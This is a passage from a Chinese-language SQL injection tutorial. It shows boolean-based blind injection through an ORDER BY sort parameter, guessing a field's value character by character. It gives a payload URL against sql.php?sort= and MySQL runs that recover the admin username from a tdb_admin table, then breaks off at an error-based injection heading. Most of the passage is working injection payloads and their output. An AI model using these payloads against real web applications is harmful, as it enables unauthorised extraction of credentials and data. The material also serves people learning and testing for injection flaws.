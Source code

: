 ## 0x06 猜内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

```plain
mysql> SELECT username FROM test.tdb_admin limit 0,1;
+----------+
| username |
+----------+
| admin    |
+----------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql.php?sort=1 RLIKE (CASE WHEN (substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a') THEN 1 ELSE 0x28 END);

读取某库某表某字段第一个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a') THEN 1 ELSE 0x28 END);

```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT username FROM test.tdb_admin limit 0,1),1,1)='a') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```

读取某库某表某字段第二字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT 字段名 FROM 库名.表名 limit 0,1),2,1)='d') THEN 1 ELSE 0x28 END);

```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT username FROM test.tdb_admin limit 0,1),2,1)='d') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```

# OrderBy 注入点-爆错注入
